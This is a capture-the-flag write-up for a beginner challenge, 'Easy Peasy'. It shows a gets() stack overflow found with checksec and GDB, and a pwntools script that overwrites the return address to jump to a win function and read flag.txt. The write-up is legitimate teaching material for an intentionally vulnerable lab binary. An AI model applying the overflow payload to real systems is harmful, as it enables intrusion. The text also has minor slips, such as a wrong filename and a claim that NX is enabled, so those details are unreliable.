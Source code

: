 ## CTF Challenge Writeup: Easy Peasy - Binary Exploitation

- **Challenge Name:** Easy Peasy  
- **Category:** Binary Exploitation  
- **Points:** 100  
- **Author:** BitR13x
- **Difficulty:** Beginner

**Description:**
Welcome to "Easy Peasy," a beginner-level binary exploitation challenge! Your task is to exploit a vulnerable binary and gain control of the eip register. The flag is located in a file named "flag.txt" on the system. Read the contents of "flag.txt" and submit it to the CTF platform to claim your points.

**Challenge Binary:** [ezpz](https://traboda-arena-87.s3.amazonaws.com/files/attachments/ezpz_d016f92c-e33f-4ea0-9105-eb810bfe783d?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIA6GUFVMV6HO3NYL6Z%2F20230807%2Fap-south-1%2Fs3%2Faws4_request&X-Amz-Date=20230807T023644Z&X-Amz-Expires=3600&X-Amz-SignedHeaders=host&X-Amz-Signature=268122cbf4717f164e612e2846a87214dabf0890d59bdac6977cf0fc8475c8da)

**Hints:**

1. Check for buffer overflows or other memory-related vulnerabilities.
2. Use a debugger to analyze the behavior of the binary during execution.
3. Research about Return-Oriented Programming (ROP) and how it can be applied to bypass certain security mechanisms.

**Requirements:**

- Linux operating system (recommended: Ubuntu)
- Basic knowledge of assembly language and binary exploitation techniques.

**Writeup:**

**Step 1: Understanding the Binary:**
The first step is to download the challenge binary and understand its functionality. We can use tools like `file` and `checksec` to get some initial information about the binary:

```bash
$ file pzpz
easy_peasy: ELF 64-bit LSB executable, x86-64, ...

$ checksec ezpz
[*] '/home/kali/workspace/DeconstruCT.F-writeups/EasyPeasy/ezpz'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

The output indicates that it is a 64-bit ELF binary without full security measures (Partial RELRO and NX enabled) except canary, but with further analyzation with cutter showed that there is no worries about canary.

**Step 2: Initial Analysis:**
Run the binary to see its behavior:

```bash
$ ./ezpz
Please enter the super secret password to display the flag:
AAAAAA
Invalid password, try again
```

It seems that the binary is a simple program that asks for a password. By further investigation in cutter or ghidra, we can see there is also `win` function which should return flag. And also good to keep in mind that the addresses remain static.

**Step 3: Identifying Vulnerability:**
Next, we need to identify vulnerabilities that can be exploited to gain control of the program. Common vulnerabilities include buffer overflows, format string vulnerabilities, and unsafe input handling.

Since it's a beginner-level challenge, let's try entering a long input and see if it causes any unexpected behavior:

```bash
$ ./ezpz
Please enter the super secret password to display the flag:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
zsh: segmentation fault  ./ezpz
```

The program accepts the input and report segmentation fault error, suggesting there might be a buffer overflow vulnerability and we are overwriting the execution. When taking closer look in cutter or ghidra, we can see that buffer is 32byte long also good to keep in mind.

**Step 4: Exploiting the Vulnerability:**
Let's use a debugger like GDB to further analyze the program and identify the exact location of the vulnerability.

```bash
$ gdb ./ezpz
(gdb)➤ disassemble vuln
Dump of assembler code for function vuln:
   0x0000000000401870 <+0>:	endbr64
   0x0000000000401874 <+4>:	push   rbp
   0x0000000000401875 <+5>:	mov    rbp,rsp
   0x0000000000401878 <+8>:	sub    rsp,0x20
   0x000000000040187c <+12>:	lea    rax,[rbp-0x20]
   0x0000000000401880 <+16>:	mov    rdi,rax
   0x0000000000401883 <+19>:	mov    eax,0x0
   0x0000000000401888 <+24>:	call   0x4124a0 <gets>
   0x000000000040188d <+29>:	nop
   0x000000000040188e <+30>:	leave
   0x000000000040188f <+31>:	ret

```

By analyzing the main function's assembly, we can identify the vulnerable `gets()` function and the potential exploitability.

**Step 5: Crafting the Exploit:**
With the vulnerability identified, we can now craft our exploit. Since this is a beginner-level challenge, it might not require advanced techniques like ROP.

To craft the payload I used pwntools and python:

```py
from pwn import *
from pwn import p64

ip = "ip_address"
port = "port"

#p = remote(str(ip),int(port)) # uncomment to connect on remote ip
p = process("./ezpz")
#gdb.attach(p, gdbscript='continue') # option to attach gdb

junk = b"A"*40

#? The JMP ESP instruction "0x625011af"
#? eip = "\xaf\x11\x50\x62"

# address of win function
eip = p64(0x004017ea) # translation into little-endian and 64bit address

#nops = "\x90" * 16
payload = junk + eip # + nops# + shellcode

p.recvline() # waiting on recv
p.sendline(payload) # send
p.interactive() # interactive shell
```

So straight forward, importing pwntools and creating process as `p`, now we know that buffer is 32byte long + 8 for a padding to move on stack. The stack should pop the address and keep executing this address instead.

When you are not sure how long is `buffer` and about the padding fuzzing is most of the time a good way.

Now we need an address of `win` function to know where to redirect execution, just use gdb.

```bash
(gdb)➤ disassemble win
Dump of assembler code for function win:
   0x00000000004017e5 <+0>:	endbr64
   0x00000000004017e9 <+4>:	push   rbp
   0x00000000004017ea <+5>:	mov    rbp,rsp
   0x00000000004017ed <+8>:	sub    rsp,0x50
   0x00000000004017f1 <+12>:	lea    rax,[rip+0x96810]        # 0x498008
   0x00000000004017f8 <+19>:	mov    rsi,rax
   0x00000000004017fb <+22>:	lea    rax,[rip+0x96808]        # 0x49800a
   0x0000000000401802 <+29>:	mov    rdi,rax
   0x0000000000401805 <+32>:	call   0x4121f0 <fopen64>
   0x000000000040180a <+37>:	mov    QWORD PTR [rbp-0x8],rax
...
```

We can't take the first two address to avoid stack alignment problems and don't segfault before printing the flag.

**Step 6: Retrieve the Flag:**
Once the exploit is crafted, run the binary with the exploit payload to gain `flag.txt`.

```bash
$ ./bufferoverflow.py
[Flag will be printed here]
```

**Step 7: Writeup Submission:**
Document the steps you followed to exploit the binary, including the vulnerable function, the payload used, and how you gained control over the program.

Happy Hacking!
